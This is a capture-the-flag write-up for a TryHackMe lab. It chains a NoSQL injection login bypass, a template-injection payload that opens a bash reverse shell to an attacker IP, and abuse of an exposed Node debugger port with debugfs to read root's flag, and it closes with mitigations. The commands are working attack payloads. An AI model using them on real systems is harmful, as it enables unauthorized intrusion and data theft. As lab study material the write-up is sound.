


# Challenge 7: Do Not Disturb

## Overview

| Field | Value |
|---|---|
| **Platform** | TryHackMe |
| **Event** | Hacker Holidays 2026 |
| **Category** | Boot2Root / Web Security |
| **Difficulty** | Medium |
| **Vulnerability Type** | NoSQL Injection / Server-Side Template Injection (SSTI) / Insecure Node Inspector |

## Objective

Obtain the **User Flag** and **Root Flag** by compromising the web application and escalating privileges within the system.

---

## Reconnaissance and Analysis

### Observations

- A web application named **Byte Lotus – Poolside**, running on **Node.js / Express**.
- A `/staff` path that returns a `403 Forbidden` status, reserved for staff members only.
- The login form at `/login` processes input in a way that accepts NoSQL query-operator syntax.
- A template engine renders data, with a hint visible in the template code (`Dear <%= guest %>`).
- A Node.js debugging port listening locally on `127.0.0.1:9229`.

### Open Services

- **Port 22 (SSH)** — open for remote login.
- **Port 80 (HTTP)** — web server running Express.js with Express Session.

### Tools Used

- **Nmap** — scanning open ports and services.
- **Gobuster** — discovering hidden paths (`/staff`, `/logout`).
- **cURL & Browser DevTools** — inspecting HTTP headers, testing POST requests, and modifying cookies (Storage / Cookies).
- **Netcat** — catching the reverse shell connection.
- **Node Debugger CLI (`node inspect`)** — connecting to the local debug port and exploiting the REPL environment.

### Rationale for Each Step

- **Nmap → Gobuster:** to map the web server's structure and available paths.
- **Paths → cURL/DevTools:** to test the behavior of the `/staff` endpoint and understand how the authentication mechanism responded.
- **NoSQL Injection → SSTI:** bypassing authentication granted access to the staff page, which contained a dynamic template-processing vulnerability.
- **Shell access → Process inspection:** the compromised user, `poolside`, had no SUID binaries or sudo privileges, which required searching for local listening services as a privilege escalation path.

---

## Root Cause

### Vulnerability 1 — NoSQL Parameter Pollution / Injection

Occurs when the application processes form input directly without validating its data type. This allows objects containing NoSQL operators such as `$ne` (Not Equal) to be submitted, bypassing the password verification logic and returning a valid session.

### Vulnerability 2 — Server-Side Template Injection (SSTI)

Occurs because user input is passed directly into the template engine (EJS / template literals) and executed server-side rather than being treated as plain text, allowing internal Node.js modules to be invoked to execute system commands.

### Vulnerability 3 — Insecure Node Inspector Protocol / Privilege Escalation

The Node.js application was launched with debug mode enabled (`--inspect=127.0.0.1:9229`) under elevated privileges, or with access to system tools such as `debugfs`. The absence of authentication on the local debug port allows any local user to execute arbitrary JavaScript code within the application's runtime environment.

---

## Discovery Process

### Discovering the NoSQL Injection

Submitting a normal login request with invalid credentials returned a `401 Unauthorized` status along with HTML content containing "Invalid credentials." However, modifying the request to submit `password[$ne]=x` via a POST request caused the server to respond with `302 Found` and issue a session cookie (`connect.sid`).

### Discovering the SSTI

Using the extracted cookie to access the protected `/staff` path revealed the message:

```
Dear <%= guest %>, your Byte Lotus cabana is confirmed.
```

This pattern indicated the presence of server-side template processing.

After extracting the User Flag and finding no SUID binaries or sudo privileges assigned to the current user (`poolside`), the investigation moved to inspecting locally running processes and listening services, which led to discovering the debugger port.

### Discovering the Node Debugger Port

After obtaining the reverse shell, local processes were inspected using:

```bash
ps aux | grep node
```

The following process line was observed:

```
/usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

The listening state of the port was then confirmed using:

```bash
ss -lntp | grep 9229
```

---

## Exploitation Steps

### Step 1 — Bypassing the Login Page (NoSQL Injection)

An HTTP POST request was sent to bypass password verification:

```bash
curl -i -X POST http://10.49.181.153/login -d "username=attendant&password[$ne]=x"
```

Alternatively, this payload can be submitted directly through browser DevTools by navigating to Storage → Cookies, adding the resulting values, and then browsing to `/staff`.

**Why it worked:** the comparison condition allows the password check to pass as long as the value "is not equal to x," permitting login as `attendant` and issuing a valid session cookie.




### Step 2 — Fixating the Session and Accessing `/staff`

The resulting cookie value was taken and added in Firefox via DevTools (Storage → Cookies), then the URL `http://10.49.181.153/staff` was visited.

**Why it worked:** the server recognized the modified cookie as a valid staff session authorized to access the path.

### Step 3 — Achieving Code Execution and Extracting the User Flag (SSTI to Reverse Shell)

The template injection vulnerability was exploited to inject Node.js code that executed a Bash command for a reverse shell connection:

```html
<% process.getBuiltinModule('child_process').exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/your_ip/4444 0>&1'"); %>
```

After setting up a listener with `nc -lvnp 4444` and obtaining the shell:

```bash
poolside@tryhackme-2404:~$ cat user.txt
THM{****}
```

**Why it worked:** the `process.getBuiltinModule` function bypasses restrictions and calls `child_process` to execute system commands directly, with the same privileges as the `poolside` user.

### Step 4 — Privilege Escalation via Node Inspector

After extracting the User Flag and finding no SUID binaries or sudo privileges for the `poolside` user, the investigation moved to inspecting local processes and listening services, leading to the discovery of the debugger port.

Local processes were inspected using:

```bash
ps aux | grep node
```

which revealed:

```
/usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

The listening port was confirmed with:

```bash
ss -lntp | grep 9229
```

A connection was then established to the local debug port `9229`:

```bash
node inspect 127.0.0.1:9229
```

Inside the debugger environment, the session was switched to REPL mode, and `debugfs` was executed to leverage its direct disk access and bypass conventional file permissions:

```javascript
debug> repl
> process.getBuiltinModule('child_process').execFileSync('/usr/sbin/debugfs', ['-R', 'cat /root/root.txt', '/dev/nvme0n1p1'], { encoding: 'utf8' })
```

**Why it worked:** `debugfs` has direct read access to raw disk sectors (`/dev/nvme0n1p1`) and can read the `/root/root.txt` file without requiring full escalation to the `root` user.

---



## Result

**Access achieved:** an interactive shell was obtained on the target, and both flags were extracted.

- **User Flag:** `THM{*****}`
- **Root Flag:** `THM{*****}`

---

## Mitigation

### Preventing NoSQL Injection
- Validate user input types and use data-validation libraries such as `express-validator` to ensure submitted data are strings, not objects.
- Avoid using unfiltered, direct queries against the database.

### Preventing SSTI
- Never merge user input directly into template engine code.
- Run template engines within a sandboxed environment and restrict access to sensitive modules such as `process` and `child_process`.

### Securing the Node.js Runtime
- Disable the `--inspect` debugging flag in production environments.
- Restrict direct access to hardware and raw disk devices (`/dev/nvme*`), and block tools such as `debugfs` from being used by non-root users.

---

## Lessons Learned

- **Vulnerability chaining:** combining a NoSQL injection to bypass authentication with an SSTI vulnerability to obtain a shell demonstrates the importance of not underestimating low-severity issues.
- **Inspecting local processes:** services listening on `127.0.0.1` are frequently the primary vector for privilege escalation when SUID binaries or sudo rules are absent.
- **Risks of direct disk access:** using disk-inspection tools such as `debugfs` represents a serious design flaw that can be exploited to read root-owned data without full root privileges.

---

## References

- [OWASP — NoSQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/NoSQL_Security_Cheat_Sheet.html)
- [Node.js Documentation — Debugging Guide & Security](https://nodejs.org/learn/getting-started/debugging)
